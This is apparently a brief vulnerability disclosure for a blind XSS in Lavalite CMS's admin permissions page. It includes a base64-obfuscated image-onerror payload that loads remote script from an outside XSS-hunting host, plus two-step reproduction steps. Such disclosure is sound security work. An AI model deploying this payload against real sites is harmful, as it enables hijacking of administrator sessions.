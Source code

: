 # Description
Blind XSS triggered at permissions page of lavalite CMS admin account.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC
* go to permissions page edit/create permission with xss payload
* Booyah!!! XSS triggered.
# PermaLinks
[drive link](https://drive.google.com/drive/folders/1zlSYQ5MUsMXBsjUaK_B5hFhblOHyOmjt?usp=sharing)

